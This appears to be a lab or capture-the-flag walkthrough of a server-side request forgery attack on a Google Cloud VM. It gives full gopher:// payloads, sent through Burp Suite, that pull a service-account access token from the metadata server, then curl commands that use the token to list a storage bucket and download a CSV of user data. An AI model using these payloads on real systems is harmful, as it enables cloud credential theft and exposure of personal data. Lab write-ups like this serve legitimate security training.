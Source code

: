 
```nmap -Pt 35.226.245.121```

```whois 35.226.245.121```

bucket: `gigantic-retail`

A common way of hosting a website on Google Cloud is to use a VM instance. Every Google Cloud virtual machine (VM) maintains its [metadata](https://cloud.google.com/compute/docs/metadata/overview) on a dedicated metadata server. Compute metadata can contain sensitive information such as credentials and this API is accessible to VMs without requiring authorization.
Checking the [documentation](https://cloud.google.com/appengine/docs/legacy/standard/java/accessing-instance-metadata) we see a metadata endpoint that allows for retrieving the GCP project ID (the unit of separation in Google Cloud is a project). 
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
![[Pasted image 20240524034113.png]]

This [blog](https://blog.codydmartin.com/gcp-cloud-function-abuse/), that contains the following SSRF payload that encapsulates an HTTP request within a Gopher URL. 
Gopher is a TCP/IP application layer protocol designed for distributing, searching, and retrieving documents over the Internet. It was developed in the early 1990s and predates the World Wide Web, presenting information in a hierarchical, text-based format. Although it has largely been supplanted by the HTTP protocol and web browsers, many libraries (such as libcurl) support an overly permissive number of protocols, including gopher. 
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

1. **Protocol and Target**: `gopher://metadata.google.internal:80/` - This part of the payload specifies that the Gopher protocol is being used to make a request to `metadata.google.internal` on port 80. As mentioned, `metadata.google.internal` is a special domain used internally by Google Cloud services to provide metadata information to VM instances.
2. **Crafted Request**:
    - `GET /computeMetadata/v1/instance/service-accounts/<service-account>/token` - This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.
    - `%2520HTTP%252f%2531%252e%2531` - This is an encoded form of " HTTP/1.1"
    - `%250AHost:%2520metadata.google.internal` - This is an encoded header specifying the host.
    - `%250AAccept:%2520%252a%252f%252a` - Encoded header for the Accept field, indicating that any media type is acceptable in response.
    - `%250aMetadata-Flavor:%2520Google` - Importantly this sets the header that is required to access the metadata service.

Using BurpSuit for intercepting the request after clicking `Fetch Image` .
select `Send to Repeater` . Then replace the existing URL value with the payload below that requests the URL `/computeMetadata/v1/instance/service-accounts/` to list the service accounts.

payload: ```
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

  After obtaining the custom service account named `bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` we will ad it to the payload `Send` again.
  
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

The response is HTML encoded so we can select the entire token, right-click it and select `Convert selection` > `HTML` > `HTML-decode` .

We might think to use the token with the Google Cloud CLI (gcloud) but `gcloud` typically relies on a service account key file (in JSON format) or user account credentials to authenticate, instead of an access token. 
We will set the `GOOGLE_ACCESS_TOKEN` environment variable, and make an authenticated request to GCP API endpoints using cURL!
```
export GOOGLE_ACCESS_TOKEN=<token>
```

```
curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/storage/v1/b/gigantic-retail/o"
```
![[Pasted image 20240524035318.png]]

The `mediaLink` field provides a direct link to download the object. Downloading the file with `curl` we see some exposed PII.
```
curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"
```


